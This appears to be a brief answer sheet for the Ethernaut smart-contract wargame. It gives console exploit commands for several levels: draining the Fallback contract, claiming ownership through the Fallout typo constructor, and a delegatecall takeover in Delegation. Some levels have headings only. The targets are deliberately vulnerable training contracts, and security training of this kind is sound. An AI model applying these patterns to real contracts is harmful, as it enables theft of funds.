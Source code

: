 #1. Hello Ethernaut
```
contract.info()

contract.info1()

contract.info2()

contract.infoNum()

contract.info42()

contract.theMethodName()

contract.method7123949()

contract.password()

contract.authenticate("ethernaut0")

```
---
#2. Fallback
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})

contract.sendTransaction({from: player, value: toWei(0.0000001)})

contract.withdraw()
```
---
#3. Fallout
```
contract.Fal1out.sendTransaction({from: player, value: toWei("0.00001")})
```
#4. Coin Flip

---
#5. Telephone

---
#6. Token

---
#7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```

---